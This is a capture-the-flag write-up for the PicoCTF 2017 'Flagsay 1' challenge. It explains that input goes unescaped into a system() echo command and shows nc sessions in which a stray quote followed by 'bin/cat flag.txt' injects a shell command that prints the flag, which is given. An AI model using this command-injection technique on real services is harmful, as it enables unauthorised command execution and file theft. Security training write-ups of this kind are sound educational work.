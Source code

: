 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	$ nc shell2017.picoctf.com 12442
	"aaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaa                              /     
	            //                                   /      
	           //                                   /       
	          //                                   /        
	         //                                   /         
	        //                                   /          
	       //___________________________________/           
	      //                                                
	     //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     

We can see that input gets inside of the flag.
However, input is unescaped, so we can pass on a shell command like 

     $ nc shell2017.picoctf.com 12442
	aaaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaaa /
	sh: 4: //: Permission denied
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

As seen above, `"` at the end of the input breaks the code. Also, we can see the shell in the second and the following lines.

Then, we can do something like this to break the first line with characters and the command for the second line, gives the flag

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `6116b5c621137949e3f70fd31f7cc29a`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDY1MDc3MDQzXX0=
-->